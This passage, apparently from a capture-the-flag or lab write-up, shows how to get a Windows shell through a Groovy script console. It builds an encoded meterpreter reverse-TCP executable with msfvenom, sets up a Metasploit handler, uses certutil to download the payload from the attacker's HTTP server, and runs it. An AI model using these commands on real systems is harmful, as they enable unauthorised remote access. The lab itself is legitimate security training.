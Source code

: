 We will be using `msfvenom` along with `Metasploit` to get somewhat a stable shell.

### Msfvenom

Let’s generate a meterpreter reverse shell.

```groovy
msfvenom -p windows/meterpreter/reverse_tcp -f exe -a x86  --encoder x86/shikata_ga_nai LHOST=10.11.60.242 LPORT=1337 -o yariss_shell.exe
```

### Metasploit

```groovy
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
```

Now thar our listener is ready, let’s download our reverse shell in the target machine.

First, let’s setup a quick python server in our `yariss_shell.exe` location

```bash
python -m http.server 80 
```

Now let’s head to the `script console` and execute this script

```bash
def cmd = "cmd.exe /c certutil.exe -urlcache -f http://10.11.60.242/yariss_shell.exe yariss_shell.exe".execute();
println("${cmd.text}");
```

This will run `certutil.exe` to download our shell.

We can check if it got downloaded

<img src="/../assets/582fc1ff0326420ab98d2e7ce4949dca/Untitled%206.png" alt="img" >

And it has been downloaded successfully, we can now run it.

```groovy
def cmd = "cmd.exe /c yariss_shell.exe".execute();
println("${cmd.text}"); 
```

Boom, we are in !
